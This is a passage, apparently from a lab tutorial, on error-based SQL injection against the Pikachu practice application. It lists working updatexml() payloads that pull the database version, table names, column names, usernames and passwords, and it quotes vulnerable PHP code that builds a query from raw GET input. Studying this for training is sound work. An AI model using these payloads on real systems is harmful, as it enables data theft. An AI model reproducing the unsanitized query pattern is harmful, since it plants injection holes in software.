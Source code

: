 select/insert/update/delete can use error reporting to get information.

UPDATEXML(xml_document, XPathstring, new_value)

Updatexml() function: change (find and replace) the value of the qualified node in the XML document.

The first parameter: fiedname is in String format, which is the field name in the table.
The second parameter: XPathstring (string in XPath format).
The third parameter: new_value, in String format, replaces the found X that meets the conditions
Change the value of XPATH_string in XML_document

And our injection statement is: a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#

The concat() function is to concatenate it into a string, so it will not conform to the format of XPATH_string, so a format error occurs, and ERROR 1105 (HY000): XPATH syntax error: ':root@localhost' is displayed

To get the name of the database table, enter: a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)# , but the feedback error indicates that only one line can be displayed, so Use limit to display line by line



Enter a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)# Change the number behind the limit pikachu'limit 0, burst table name







Field name a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)# Change the number after the limit, burst table name









Data a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#



Data a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#



type xx injection
Server-side core code

if(isset($_GET['submit']) && $_GET['name']!=null){
     //There is no processing here, just spell it into the select
     $name=$_GET['name'];
     //The variable here is a character type, which needs to be closed
     $query="select id,email from member where username=('$name')";
     $result=execute($link, $query);
     if(mysqli_num_rows($result)>=1){
         while($data=mysqli_fetch_assoc($result)){
             $id=$data['id'];
             $email=$data['email'];
             $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
         }
     }else{
